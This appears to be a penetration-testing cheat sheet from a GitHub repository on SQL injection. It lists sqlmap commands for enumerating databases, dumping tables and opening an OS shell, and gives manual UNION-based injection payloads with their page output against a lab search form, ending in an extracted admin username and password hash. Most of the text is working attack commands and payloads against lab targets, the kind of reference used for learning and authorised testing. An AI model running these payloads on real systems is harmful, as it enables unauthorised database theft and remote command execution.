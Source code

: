 * [`sqlmap`](#sqlmap)
  * [get request](#get-request)
  * [post request](#post-request)
  * [databases](#databases)
  * [tables](#tables)
  * [data](#data)
  * [columns](#columns)
  * [os shell](#os-shell)
* [INFORMATION_SCHEMA](#information_schema)
  * [INFORMATION_SCHEMA Tables](#information_schema-tables)
* [Manual Methods](#manual-methods)
  * [check vulnerability](#check-vulnerability)
  * [enumerate fields of search query](#enumerate-fields-of-search-query)
  * [enumerate databases](#enumerate-databases)
  * [enumerate tables](#enumerate-tables)
  * [enumerate columns](#enumerate-columns)
  * [show data](#show-data)

# `sqlmap`
If we know the DBMS, we can use option `--dbms=mysql`
## get request
```
sqlmap -u "http://example.com/?a=1&b=2&c=3" -p "a,b"
```
## post request
```
sqlmap -u "http://example.com/" --data "a=1&b=2&c=3" -p "a,b" --method POST
```
Alternatively, copy the POST request in the intercept of burpsuite in a file and use it as follows
```
$ cat web.txt
POST /results.php HTTP/1.1
Host: 10.10.10.109
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.109/search.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Connection: close
Upgrade-Insecure-Requests: 1

search=killer
```
```
sqlmap -r web.txt -p "search"
```
## databases
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs 
```
## tables
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --tables -D testdb
```
## data
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dump -D testdb -T users
```
## columns
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dump -D testdb -T users --columns
```
### os shell
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --os-shell
```
# INFORMATION_SCHEMA
Refs:
* <https://www.cmi.ac.in/~madhavan/courses/databases10/mysql-5.0-reference-manual/information-schema.html#schemata-table>

INFORMATION_SCHEMA provides access to database metadata.

Metadata is data about the data, such as the name of a database or table, the data type of a column, or access privileges. INFORMATION_SCHEMA is the information database, the place that stores information about all the other databases that the MySQL server maintains. Inside INFORMATION_SCHEMA there are several read-only tables. They are actually views, not base tables, so there are no files associated with them.
## INFORMATION_SCHEMA Tables
* <https://dev.mysql.com/doc/refman/8.0/en/columns-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/schemata-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/st-units-of-measure-table.html>

# Manual Methods
## check vulnerability
```
search=killer' or 1='1
```
## enumerate fields of search query
In burpsuite, go to repeater mode and keep on increasing the numbers till the fields of search query gets printed on the webpage
```
search=killer' UNION SELECT 1,2,3,4,5,6-- -
```
```
<h3>Search results </h3>
ID: 1<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate databases
### current database
```
search=killer' UNION SELECT database(),2,3,4,5,6-- -
```
```
<h3>Search results </h3> 
ID: Staff<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
### using INFORMATION_SCHEMA
```
search=killer' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3> 
ID: information_schema<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: Staff<br/>Name: 2 3
<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email:
6<br/>
```
### all databases
```
search=killer' UNION SELECT GROUP_CONCAT(SCHEMA_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3>
ID: information_schema,Staff,users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate tables
```
search=killer' UNION SELECT GROUP_CONCAT(TABLE_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="Staff"-- -
```
```
<h3>Search results </h3> 
ID: StaffDetails,Users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate columns
```
search=killer' UNION SELECT GROUP_CONCAT(COLUMN_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA="Staff" AND TABLE_NAME="Users"-- -
```
```
<h3>Search results </h3>
ID: UserID,Username,Password<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## show data
```
search=killer' UNION SELECT GROUP_CONCAT(Username,":",Password),2,3,4,5,6 FROM Staff.Users-- -
```
```
<h3>Search results </h3>
ID: admin:856f5de590ef37314e7c3bdf6f8a66dc<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
